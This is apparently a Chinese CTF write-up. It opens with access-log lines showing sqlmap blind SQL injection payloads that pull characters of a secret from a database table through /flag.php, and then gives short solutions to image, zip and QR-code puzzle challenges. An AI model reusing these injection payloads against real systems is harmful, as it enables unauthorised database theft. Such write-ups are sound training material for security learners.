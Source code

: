 ```
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),20,1))=101-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),21,1))=55-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),22,1))=53-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),23,1))=54-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),24,1))=57-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),38,1))=125-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
```

102 108 97 103 123 109 97 121 105 121 97 104 101 105 49 57 54 53 97 101 55 53 54 57 125

flag{mayiyahei1965ae7569}

## 哆啦A梦

binwalk分离出png图片，修改高宽后是二维码，qr扫描即可

![image](./img/duola1.png)

ZmxhZ3tDdGZfMjAxOF92ZXJ5X2dvb2R9

flag{Ctf_2018_very_good}

## flag就在这

无法打开压缩包，010查看补全 50 4B压缩包头

打开后需要密码，用ziperello爆破即可

## Fix-it

用PS修复，快速选择左上角方框，复制图层到右上角和左下角

![image](./img/fix-it.png)

flag{easyQRcode}

## flag

010打开，base64解码可以发现是png格式，利用base64解码转图片

https://the-x.cn/base64
